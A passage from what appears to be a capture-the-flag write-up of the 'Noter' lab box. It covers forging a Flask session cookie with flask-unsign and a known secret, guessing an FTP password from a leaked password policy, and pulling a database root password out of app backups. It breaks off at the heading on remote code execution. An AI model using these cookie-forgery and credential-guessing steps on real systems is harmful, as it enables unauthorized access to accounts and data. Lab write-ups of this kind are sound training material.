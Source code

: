 **Forging the Cookie and Logging in as Blue**

Using flask-unsign, we can also sign a cookie:
```
thehated@debian:~$ flask-unsign --sign --secret secret123 --cookie "{'logged_in': True, 'username': 'blue'}"
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yxds9g.fR2IP9wZhjGqa5LnmiegvwDGKJ0
```

Upon changing our cookie, we get signed in as Blue:
![noterloggedin](https://th3hat3d.github.io/img/noterloggedin.png)

Crucially, we have a note from ftp_admin:

![noternote](https://th3hat3d.github.io/img/noternote.png)

Now we can log in to FTP.

**Enumerating FTP**

Logging into FTP as blue, we see a file named "policy.pdf", and download it:
```
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
drwxr-xr-x    2 1002     1002         4096 May 02 23:05 files  
-rw-r--r--    1 1002     1002        12569 Dec 24  2021 policy.pdf
```

The "files" directory is empty.

The pdf gives us info about passwords:
![noterpdf](https://th3hat3d.github.io/img/noterpdf.png)

Most crucially, it tells us that the password format is "username@site_name!", and since blue's password was "blue@Noter!", perhaps ftp_admin's password is "ftp_admin@Noter!"

**RCE and shell as svc**

We see two app backups:
```
200 PORT command successful. Consider using PASV.  
150 Here comes the directory listing.  
-rw-r--r--    1 1003     1003        25559 Nov 01  2021 app_backup_1635803546.zip  
-rw-r--r--    1 1003     1003        26298 Dec 01  2021 app_backup_1638395546.zip  
226 Directory send OK.
```

We download these and look at them. They are backups of the web app, and one of them has a database password, which might be useful later:
```
app.config['MYSQL_HOST'] = 'localhost'
app.config['MYSQL_USER'] = 'root'
app.config['MYSQL_PASSWORD'] = 'Nildogg36'
app.config['MYSQL_DB'] = 'app'
app.config['MYSQL_CURSORCLASS'] = 'DictCursor'
```
